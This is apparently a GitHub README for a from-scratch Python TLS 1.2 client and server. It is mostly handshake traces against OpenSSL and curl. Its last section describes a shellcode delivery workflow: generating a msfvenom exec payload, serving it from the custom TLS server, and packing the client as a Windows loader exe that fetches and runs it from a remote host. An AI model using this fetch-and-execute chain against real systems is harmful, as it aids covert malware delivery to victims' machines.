


# Custom TLS Client & Server

Purpose of this project is to write a custom TLS client and server from scratch by following the RFC only.



This version of the commit includes a working TLS client and server for openssl server v1.2.

It supports `TLS_RSA_WITH_AES_128_CBC_SHA256` only at the moment. 

## OpenSSL server <----> my-tls client
Start server,

```
openssl s_server -cert server.crt -key server.key -accept 8443 -www -msg  -tls1_2 -state -debug  -trace

```

Run client,
```
/mnt/c/Users/melih/Desktop/ my-tls main*
venv ❯ python3 client.py localhost 8443
...

HTTP/1.0 200 ok
Content-type: text/html

<HTML><BODY BGCOLOR="#ffffff">
<pre>

s_server -cert server.crt -key server.key -accept 8443 -www -msg -tls1_2 -state -debug -trace
Secure Renegotiation IS NOT supported
Ciphers supported in s_server binary
TLSv1.3    :TLS_AES_256_GCM_SHA384    TLSv1.3    :TLS_CHACHA20_POLY1305_SHA256
TLSv1.3    :TLS_AES_128_GCM_SHA256    TLSv1.2    :ECDHE-ECDSA-AES256-GCM-SHA384
TLSv1.2    :ECDHE-RSA-AES256-GCM-SHA384 TLSv1.2    :DHE-RSA-AES256-GCM-SHA384
TLSv1.2    :ECDHE-ECDSA-CHACHA20-POLY1305 TLSv1.2    :ECDHE-RSA-CHACHA20-POLY1305
TLSv1.2    :DHE-RSA-CHACHA20-POLY1305 TLSv1.2    :ECDHE-ECDSA-AES128-GCM-SHA256
TLSv1.2    :ECDHE-RSA-AES128-GCM-SHA256 TLSv1.2    :DHE-RSA-AES128-GCM-SHA256
TLSv1.2    :ECDHE-ECDSA-AES256-SHA384 TLSv1.2    :ECDHE-RSA-AES256-SHA384
TLSv1.2    :DHE-RSA-AES256-SHA256     TLSv1.2    :ECDHE-ECDSA-AES128-SHA256
TLSv1.2    :ECDHE-RSA-AES128-SHA256   TLSv1.2    :DHE-RSA-AES128-SHA256
TLSv1.0    :ECDHE-ECDSA-AES256-SHA    TLSv1.0    :ECDHE-RSA-AES256-SHA
SSLv3      :DHE-RSA-AES256-SHA        TLSv1.0    :ECDHE-ECDSA-AES128-SHA
...
```


## my-tls server <----> OpenSSL client

Run server
```
(venv) ~/Desktop/personal-work/my-tls  ‹main*› $ python3 server.py
[+] Listening on 127.0.0.1:8443
[+] Connection from ('127.0.0.1', 52296)

Record Layer:
  Content Type: 22
  Protocol Version: 0301
  Record Layer Length: 110

Handshake Protocol:
	Handshake Type: 1
	Handshake Length: 106
	Handshake Data (first 30 bytes): 0303c31555375179ae2598c4cb0d597e4c9db079bfdf4d305ec0cbee9f4f...
	Handshake message type: 1
	Handshake message length: 106
	Legacy version: 0303
	Random data: c31555375179ae2598c4cb0d597e4c9db079bfdf4d305ec0cbee9f4f9e0b9e31
	Session ID length: 0
	Session ID:
	Cipher suites: 003c
	Compression methods: 00
	Extensions length: 63
	Extensions: ff01000100002300000016000000170000000d002a0028040305030603080708080809080a080b080408050806040105010601030303010302040205020602
  Skipping non-handshake content type: 22

Finished parsing all record layers.
[<] Received ClientHello
[>] Sent ServerHello
[>] Sent Certificate
[>] Sent ServerHelloDone

Record Layer:
  Content Type: 22
  Protocol Version: 0303
  Record Layer Length: 262

Handshake Protocol:
	Handshake Type: 16
...
[<] Received ChangeCipherSpec
Comparing received verify with expected
828e54623aec4cfc2d913dcb == 828e54623aec4cfc2d913dcb : True
------------------------------------------------------------
------------------------------------------------------------
[>] Sent ChangeCipherSpec
Handshake hash: 28d2f9ad0d06bbba7ea543dbe5b22852ab6a9ba41f0628483717a8111122971a
Verify data:  6dc3d46ecd4c532b20297794
[>] Sent Server Finished
[+] Sent Application Data (HTTP response)
------------------------------------------------------------
[+] Sent close_notify alert

```

Run client,
```
(venv) ~/Desktop/personal-work/my-tls  ‹main*› $ openssl s_client  -tls1_2 -cipher TLS_RSA_WITH_AES_128_CBC_SHA256  -debug -state -msg -trace  localhost:8443
Connecting to 127.0.0.1
CONNECTED(00000005)
SSL_connect:before SSL initialization
Sent TLS Record
Header:
  Version = TLS 1.0 (0x301)
  Content Type = Handshake (22)
  Length = 110
    ClientHello, Length=106
      client_version=0x303 (TLS 1.2)
      Random:
        gmt_unix_time=0xC3155537
        random_bytes (len=28): 5179AE2598C4CB0D597E4C9DB079BFDF4D305EC0CBEE9F4F9E0B9E31
      session_id (len=0):
      cipher_suites (len=2)
        {0x00, 0x3C} TLS_RSA_WITH_AES_128_CBC_SHA256
      compression_methods (len=1)
        No Compression (0x00)
      extensions, length = 63
        extension_type=renegotiate(65281), length=1
            <EMPTY>
        extension_type=session_ticket(35), length=0
        extension_type=encrypt_then_mac(22), length=0
        extension_type=extended_master_secret(23), length=0
        extension_type=signature_algorithms(13), length=42
          ecdsa_secp256r1_sha256 (0x0403)
          ecdsa_secp384r1_sha384 (0x0503)
          ecdsa_secp521r1_sha512 (0x0603)

...

0070 - e3 10 82 b8 00 a7 bc 77-49 c4 98 14 dc 6f d5 7c   .......wI....o.|
0080 - 81 30 4f ae 00 fe 13 37-e8 64 af e3 49 39 e3 f5   .0O....7.d..I9..
HTTP/1.0 200 OK
Content-Type: text/plain
Connection: close

Hello from my-tls server!
read from 0x600001e4a780 [0x14701b803] (5 bytes => 5 (0x5))
0000 - 15 03 03 00 40                                    ....@
Received TLS Record
Header:
  Version = TLS 1.2 (0x303)
  Content Type = Alert (21)
  Length = 64
read from 0x600001e4a780 [0x14701b808] (64 bytes => 64 (0x40))
0000 - ca 8b 8b 51 d0 e6 08 c2-6c 7e f0 2a 46 46 cb 4b   ...Q....l~.*FF.K
0010 - d2 f1 35 35 05 cd 06 3a-d0 b8 cc 66 f5 70 d8 cd   ..55...:...f.p..
0020 - 2a 47 f1 8f b5 e0 30 2a-fc 37 9c e4 44 45 90 39   *G....0*.7..DE.9
0030 - be fd 8c 54 1e a9 9a fd-89 ff 2a d0 df dd e4 ac   ...T......*.....
    Level=warning(1), description=close notify(0)

SSL3 alert read:warning:close notify
closed
Sent TLS Record
Header:
  Version = TLS 1.2 (0x303)
  Content Type = Alert (21)
  Length = 64
write to 0x600001e4a780 [0x151008803] (69 bytes => 69 (0x45))
0000 - 15 03 03 00 40 a6 b2 f0-55 4c ec be 52 e4 0f d5   ....@...UL..R...
0010 - 79 c1 50 e4 7e 26 5b 5a-d6 a2 74 06 0a e4 0e 87   y.P.~&[Z..t.....
0020 - cc 3c 6f 51 f0 b9 aa 79-ea 51 83 b2 ec 18 52 5b   .<oQ...y.Q....R[
0030 - 5f bd dc e9 d7 32 cb 3f-fb b1 76 53 ac a3 67 d8   _....2.?..vS..g.
0040 - 46 d1 83 df b2                                    F....
    Level=warning(1), description=close notify(0)

SSL3 alert write:warning:close notify
read from 0x600001e4a780 [0x147010000] (16384 bytes => 0)

```

Also one can use curl,

```
(venv) ~/Desktop/personal-work/my-tls  ‹main*› $ curl https://localhost:8443 -k -v
* Host localhost:8443 was resolved.
* IPv6: ::1
* IPv4: 127.0.0.1
*   Trying [::1]:8443...
* connect to ::1 port 8443 from ::1 port 52688 failed: Connection refused
*   Trying 127.0.0.1:8443...
* Connected to localhost (127.0.0.1) port 8443
* ALPN: curl offers h2,http/1.1
* (304) (OUT), TLS handshake, Client hello (1):
* (304) (IN), TLS handshake, Server hello (2):
* TLSv1.2 (IN), TLS handshake, Certificate (11):
* TLSv1.2 (IN), TLS handshake, Server finished (14):
* TLSv1.2 (OUT), TLS handshake, Client key exchange (16):
* TLSv1.2 (OUT), TLS change cipher, Change cipher spec (1):
* TLSv1.2 (OUT), TLS handshake, Finished (20):
* TLSv1.2 (IN), TLS change cipher, Change cipher spec (1):
* TLSv1.2 (IN), TLS handshake, Finished (20):
* SSL connection using TLSv1.2 / AES128-SHA256 / [blank] / UNDEF
* ALPN: server did not agree on a protocol. Uses default.
* Server certificate:
*  subject: C=MY; ST=Orion; L=Gargantua; O=Dope Company LLC.; OU=IT; CN=DCLLC; emailAddress=test@localhost.com
*  start date: Jan 19 09:45:53 2025 GMT
*  expire date: Jan 19 09:45:53 2026 GMT
*  issuer: C=MY; ST=Orion; L=Gargantua; O=Dope Company LLC.; OU=IT; CN=DCLLC; emailAddress=test@localhost.com
*  SSL certificate verify result: self signed certificate (18), continuing anyway.
* using HTTP/1.x
> GET / HTTP/1.1
> Host: localhost:8443
> User-Agent: curl/8.7.1
> Accept: */*
>
* HTTP 1.0, assume close after body
< HTTP/1.0 200 OK
< Content-Type: text/plain
< Connection: close
<
Hello from my-tls server!
* TLSv1.2 (IN), TLS alert, close notify (256):
* we are done reading and this is set to close, stop send
* Request completely sent off
* Closing connection
* Recv failure: Connection reset by peer
* Send failure: Broken pipe
```


The traffic,




## Example Shellcode Delivery

Server,
```
(venv) ➜  my-tls git:(main) ✗ msfvenom -p windows/x64/exec CMD="cmd /c whoami & calc.exe" EXITFUNC=thread > shellcode.bin
(venv) ➜  my-tls git:(main) ✗ python3 server.py                           
Usage: python3 server.py <host> <port>
Usage: python3 server.py <host> <port> <shellcode-location>

        Hint: msfvenom -p linux/x64/exec CMD=id > shellcode.bin

        Hint: msfvenom -p windows/x64/exec CMD="cmd /c whoami & calc.exe"  > shellcode.bin
(venv) ➜  my-tls git:(main) ✗ python3 server.py 0.0.0.0 8443 shellcode.bin
[+] Listening on 0.0.0.0:8443
```

Change block in client.py with server ip
```
host = "PLACEHOLDER"
port = 8443
```

-change the loader logic depending on your flow-

pack an exe using PyInstaller,
```
python -m PyInstaller --onefile client.py
```

And execute `client.exe`


# Sources
* https://tls12.xargs.org/#server-certificate
* https://commandlinefanatic.com/cgi-bin/showarticle.cgi?article=art080
* https://datatracker.ietf.org/doc/html/rfc5246